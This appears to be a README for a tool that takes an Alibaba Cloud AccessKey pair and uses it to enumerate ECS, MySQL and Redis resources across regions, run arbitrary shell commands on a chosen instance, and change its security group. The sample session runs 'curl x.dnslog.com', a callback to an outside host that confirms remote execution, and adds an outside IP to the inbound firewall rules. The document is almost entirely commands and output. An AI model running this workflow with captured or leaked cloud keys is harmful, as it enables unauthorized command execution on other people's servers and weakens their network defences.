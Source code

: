 # aksk_tool
aksk tool
$java -jar aliyun_tool.jar LTAI*******  aaaaaaaaaaaaaaaaaaaaaaaa
[-] AK: LTAI*******  SK: aaaaaaaaaaaaaaaaaaaaaaaa
[-] regions list: 
| Num | Region_Id            | Region_Name         |
| 1   | cn-qingdao           | 华北1（青岛）             |
| 2   | cn-beijing           | 华北2（北京）             |
| 3   | cn-zhangjiakou       | 华北3（张家口）            |
| 4   | cn-huhehaote         | 华北5（呼和浩特）           |
| 5   | cn-wulanchabu        | 华北6（乌兰察布）           |
| 6   | cn-hangzhou          | 华东1（杭州）             |
| 7   | cn-shanghai          | 华东2（上海）             |
| 8   | cn-shenzhen          | 华南1（深圳）             |
| 9   | cn-heyuan            | 华南2（河源）             |
| 10  | cn-guangzhou         | 华南3（广州）             |
| 11  | cn-chengdu           | 西南1（成都）             |
| 12  | cn-hongkong          | 中国（香港）              |
| 13  | ap-northeast-1       | 亚太东北 1 (东京)         |
| 14  | ap-southeast-1       | 亚太东南 1 (新加坡)        |
| 15  | ap-southeast-2       | 亚太东南 2 (悉尼)         |
| 16  | ap-southeast-3       | 亚太东南 3 (吉隆坡)        |
| 17  | ap-southeast-5       | 亚太东南 5 (雅加达)        |
| 18  | ap-south-1           | 亚太南部 1 (孟买)         |
| 19  | us-east-1            | 美国东部 1 (弗吉尼亚)       |
| 20  | us-west-1            | 美国西部 1 (硅谷)         |
| 21  | eu-west-1            | 英国 (伦敦)             |
| 22  | me-east-1            | 中东东部 1 (迪拜)         |
| 23  | eu-central-1         | 欧洲中部 1 (法兰克福)       |
| 24  | cn-nanjing           | 华东5（南京-本地地域）        |

[-] search Resource: 
INFO > cn-qingdao          - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-beijing          - FIND ECS COUNT: 10        - FIND MYSQL COUNT: 1         - FIND REDIS COUNT: 2         
INFO > cn-zhangjiakou      - FIND ECS COUNT: 0         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-huhehaote        - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-wulanchabu       - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-hangzhou         - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 1         - FIND REDIS COUNT: 1         
INFO > cn-shanghai         - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 1         - FIND REDIS COUNT: 0         
INFO > cn-shenzhen         - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-heyuan           - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-guangzhou        - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-chengdu          - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-hongkong         - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > ap-northeast-1      - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > ap-southeast-1      - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > ap-southeast-2      - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > ap-southeast-3      - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > ap-southeast-5      - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > ap-south-1          - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > us-east-1           - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > us-west-1           - FIND ECS COUNT: 4         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > eu-west-1           - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > me-east-1           - FIND ECS COUNT: 1         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > eu-central-1        - FIND ECS COUNT: 2         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
INFO > cn-nanjing          - FIND ECS COUNT: 0         - FIND MYSQL COUNT: 0         - FIND REDIS COUNT: 0         
[-] find regions list: 
0: cn-qingdao -->   ECS: 1  MYSQL: 1
1: cn-beijing -->   ECS: 10  MYSQL: 1  REDIS: 2
2: cn-zhangjiakou -->   ECS: 1  MYSQL: 1
3: cn-huhehaote -->   ECS: 1
4: cn-hangzhou -->   ECS: 1  MYSQL: 1  REDIS: 1
5: cn-shanghai -->   ECS: 1  MYSQL: 1
6: cn-shenzhen -->   ECS: 1
7: cn-heyuan -->   ECS: 1
8: cn-chengdu -->   ECS: 1
9: cn-hongkong -->   ECS: 1  MYSQL: 1
10: ap-northeast-1 -->   ECS: 1
11: ap-southeast-1 -->   ECS: 1
12: ap-southeast-2 -->   ECS: 1
13: ap-southeast-3 -->   ECS: 1
14: ap-southeast-5 -->   ECS: 1
15: ap-south-1 -->   ECS: 1
16: us-east-1 -->   ECS: 1
17: us-west-1 -->   ECS: 4
18: eu-west-1 -->   ECS: 1
19: me-east-1 -->   ECS: 1
20: eu-central-1 -->   ECS: 1
[-] please enter the number(0-20)
> 0
[-] use region: cn-qingdao
[-] Instance list: 
| Num   | Instance_ID  | Public_IP    | CPU   | Memory     | Instance_Status | OS_Name              | Instance_Name        | Security_Group       |
| 1     | i-test       | 1.1.1.1      | 4     | 16G        | Running         | Ubuntu  18.04 64位   | test-qingdao-01      | sg-secgroupid        |

[-] find instance list: 
0: i-test,test-qingdao-01
[-] please enter the number(0-0),  enter back to re-choose region
> 0
[-] use instance: i-test,test-qingdao-01
[-] Instance Detail: 
# Os name: Ubuntu  18.04 64位
# Hostname: test-qingdao-01
# RegionId: cn-qingdao
# Instance Id: i-testname
# Instance Name: i-test
# InnerIp: 
# Public Ip: 1.1.1.1
# Security GroupId: sg-secgroupid
# Start Time: 2011-01-04T12:36Z
# Expired Time: 2023-01-02T12:00Z
# CPU: 4
# Memory: 16384 M
# Status: Running
# Disk size: 150 G
[-] please enter command, enter q or quit to quit, enter back to re-choose instance
[-] example: cmd=whoami    sec_group_info=SecruityGroupId    sec_group_add=SecruityGroupId:ip    sec_group_del=SecruityGroupId:ip
> sec_group_info=sg-secgroupid
[-] Security Group Detail: 
# Protocol: TCP, Ip:0.0.0.0/0, PortRange:3389/3389, SourceRange:, Policy:Drop, NicType:intranet, CreatTime:2011-01-02T09:17:10Z
# Protocol: TCP, Ip:0.0.0.0/0, PortRange:3389/3389, SourceRange:, Policy:Accept, NicType:intranet, CreatTime:2011-01-02T09:17:10Z
# Protocol: ICMP, Ip:0.0.0.0/0, PortRange:-1/-1, SourceRange:-1/-1, Policy:Accept, NicType:intranet, CreatTime:2011-01-02T09:17:09Z
# Protocol: TCP, Ip:0.0.0.0/0, PortRange:22/22, SourceRange:, Policy:Accept, NicType:intranet, CreatTime:2011-01-02T09:17:09Z
[-] please enter command, enter q or quit to quit, enter back to re-choose instance
[-] example: cmd=whoami    sec_group_info=SecruityGroupId    sec_group_add=SecruityGroupId:ip    sec_group_del=SecruityGroupId:ip
> cmd=curl x.dnslog.com
[-] command: curl x.dnslog.com
命令创建完成
命令执行完成
[-] please enter command, enter q or quit to quit, enter back to re-choose instance
[-] example: cmd=whoami    sec_group_info=SecruityGroupId    sec_group_add=SecruityGroupId:ip    sec_group_del=SecruityGroupId:ip
> sec_group_add=sg-secgroupid:8.8.8.8
入方向安全组新增成功
[-] please enter command, enter q or quit to quit, enter back to re-choose instance
[-] example: cmd=whoami    sec_group_info=SecruityGroupId    sec_group_add=SecruityGroupId:ip    sec_group_del=SecruityGroupId:ip
> q
